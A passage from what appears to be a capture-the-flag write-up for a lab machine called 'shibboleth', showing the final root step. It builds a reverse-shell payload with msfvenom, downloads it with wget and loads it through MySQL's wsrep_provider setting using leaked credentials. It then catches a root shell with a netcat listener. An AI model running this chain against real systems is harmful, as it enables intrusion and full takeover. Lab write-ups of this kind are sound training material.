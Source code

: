 
### Final Step 

- Create the reverse shell payload
 - msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o root.so
 
- I've used python http server and wget to download the payload
  - python3 -m http.server 80 [ Attacker ]
  - wget http://<your_ip>/root.so [ Victim ]
- Setup a nc listener 

 ```bash

 # Login with creds we got earlier 
ipmi-svc@shibboleth:~$ mysql -u zabbix -pbloooarskybluh -h localhost -e 'SET GLOBAL wsrep_provider="/tmp/root.so";'
<host -e 'SET GLOBAL wsrep_provider="/tmp/root.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query

 ```
 ## Rooted the machine
 
 ```bash
 
 └─$ nc -nvlp 4433                    
listening on [any] 4433 ...
connect to [10.10.14.47] from (UNKNOWN) [10.129.99.153] 49958

python3 -c "import pty;pty.spawn('/bin/bash')"
root@shibboleth:/var/lib/mysql#id
uid=0(root) gid=0(root) groups=0(root) 

root@shibboleth:/var/lib/mysql# cat /root/root.txt
<--SNIP-->

```
 
#### Box pwned
 
 ![image](https://user-images.githubusercontent.com/56447720/141778619-c4e8c92d-47cc-46b7-b212-c7c2bf4785e5.png)

 
 
 
